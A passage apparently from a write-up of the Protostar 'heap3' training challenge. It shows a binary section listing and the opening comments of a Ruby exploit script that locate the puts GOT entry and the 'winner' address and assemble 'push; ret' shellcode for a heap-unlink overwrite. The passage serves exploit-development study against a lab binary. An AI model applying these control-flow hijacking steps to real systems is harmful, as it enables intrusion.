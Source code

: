     0x804b000->0x804b008 at 0x00003000: .ctors ALLOC LOAD DATA HAS_CONTENTS
    0x804b008->0x804b010 at 0x00003008: .dtors ALLOC LOAD DATA HAS_CONTENTS
    0x804b010->0x804b014 at 0x00003010: .jcr ALLOC LOAD DATA HAS_CONTENTS
    0x804b014->0x804b0e4 at 0x00003014: .dynamic ALLOC LOAD DATA HAS_CONTENTS
    0x804b0e4->0x804b0e8 at 0x000030e4: .got ALLOC LOAD DATA HAS_CONTENTS
    0x804b0e8->0x804b130 at 0x000030e8: .got.plt ALLOC LOAD DATA HAS_CONTENTS
    0x804b130->0x804b138 at 0x00003130: .data ALLOC LOAD DATA HAS_CONTENTS
    0x804b140->0x804b5d4 at 0x00003138: .bss ALLOC
    0x0000->0x3cfc at 0x00003138: .stab READONLY HAS_CONTENTS
    0x0000->0x566a at 0x00006e34: .stabstr READONLY HAS_CONTENTS
    0x0000->0x0039 at 0x0000c49e: .comment READONLY HAS_CONTENTS
{% endcodeblock %}

Exploit: 

{% codeblock lang:ruby exploit-backward.rb %}
#!/usr/bin/env ruby

# user@protostar:~$ objdump -d /opt/protostar/bin/heap3 -M intel
# ...
#  8048935:       e8 56 fe ff ff          call   8048790 <puts@plt>

# user@protostar:~$ objdump -TR /opt/protostar/bin/heap3 | grep "R_386_JUMP_SLOT.* puts"
# 0804b128 R_386_JUMP_SLOT   puts

# gdb> print /x 0x0804b128-0x0c
# $1 = 0x804b11c

# user@protostar:~$ nm /opt/protostar/bin/heap3 | grep winner
# 08048864 T winner

# root@kali32:~# rasm2 -C 'push 0x08048864; ret'
# "\x68\x64\x88\x04\x08\xc3"
